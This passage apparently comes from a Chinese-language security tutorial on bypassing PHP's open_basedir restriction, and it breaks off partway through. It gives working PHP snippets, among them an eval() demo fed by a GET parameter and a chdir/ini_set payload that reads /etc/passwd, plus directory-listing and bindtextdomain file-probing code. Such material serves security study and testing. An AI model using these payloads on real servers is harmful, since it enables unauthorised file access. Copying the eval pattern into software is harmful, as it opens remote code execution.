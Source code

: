 ```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

效果和方式1是一样的，只能Bypass open_basedir来列举根目录中的文件，不能列举出其他非根目录和open_basedir指定的目录中的文件。

### 利用chdir()与ini_set()组合Bypass

测试Demo，放置在Web根目录下，在执行输入参数的PHP代码前后获取open_basedir的值看是否改变了：

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

输入以下payload：

```php
mkdir('mi1k7ea');chdir('mi1k7ea');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

可以看到open_basedir被设置为’/‘了，整个失去了效果

### 利用bindtextdomain()函数Bypass

(PHP 4, PHP 5, PHP 7)

bindtextdomain()函数用于绑定domain到某个目录的函数。

函数定义如下：

```bash
bindtextdomain ( string $domain , string $directory ) : string
```

#### Bypass

利用原理是基于报错：bindtextdomain()函数的第二个参数\$directory是一个文件路径，它会在\$directory存在的时候返回\$directory，不存在则返回false。

payload：

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

只能应用于判断目标文件是否存在，有利于后续和其他漏洞进行组合利用。

### 利用SplFileInfo::getRealPath()类方法Bypass

#### SplFileInfo类

(PHP 5 >= 5.1.2, PHP 7)

SplFileInfo类为单个文件的信息提供高级面向对象的接口。

`SplFileInfo::getRealPath`